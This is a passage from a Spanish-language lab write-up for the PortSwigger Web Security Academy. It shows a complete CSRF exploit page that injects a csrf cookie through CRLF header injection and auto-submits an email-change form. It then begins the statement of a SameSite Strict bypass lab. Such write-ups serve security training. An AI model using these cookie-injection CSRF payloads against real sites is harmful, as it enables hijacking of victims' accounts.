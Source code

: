 Vamos a enviar a la víctima el siguiente script.

```
<html>
	<head>
		<title>CSRF</title>
	</head>
	<body>
		<form action="https://0a8f00d90409f36c81fb52ed002a00bb.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="prueba@prueba.com">
		    <input type="hidden" name="csrf" value="oP3BBuAIGSPnmoUfq3pVzpCgl09cDN4r">
		</form>
		<img src="https://0a8f00d90409f36c81fb52ed002a00bb.web-security-academy.net/?search=anything%0d%0aSet-Cookie:csrf=oP3BBuAIGSPnmoUfq3pVzpCgl09cDN4r%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: SameSite Strict bypass via client-side redirect

### Enunciado

**La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.** Para resolver el laboratorio, **realiza un ataque CSRF que cambie la dirección de correo electrónico de la víctima.** Debes usar el **servidor de exploits proporcionado** para alojar tu ataque.

**Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:**
